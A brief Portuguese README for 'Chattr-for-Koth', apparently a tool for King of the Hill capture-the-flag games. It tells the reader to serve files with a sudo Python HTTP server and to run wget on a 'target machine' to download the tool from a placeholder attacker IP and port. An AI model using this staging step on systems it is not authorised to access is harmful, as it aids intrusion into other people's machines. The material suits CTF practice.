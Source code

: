 # Chattr-for-Koth
Chattr para Koth

instale o repositório para sua máquina :)

# Como usar:

Você vai precisar abrir um Webserver em python usando:
```sudo python3 -m http.server```


Depois você usa na máquina alvo:
```wget http://<your ip>:<port>/Chattr-for-Koth-file```
  
![allison-frog](https://user-images.githubusercontent.com/68440743/234157699-4065d1ed-518b-4878-8bd4-bfd834cf8f82.gif)
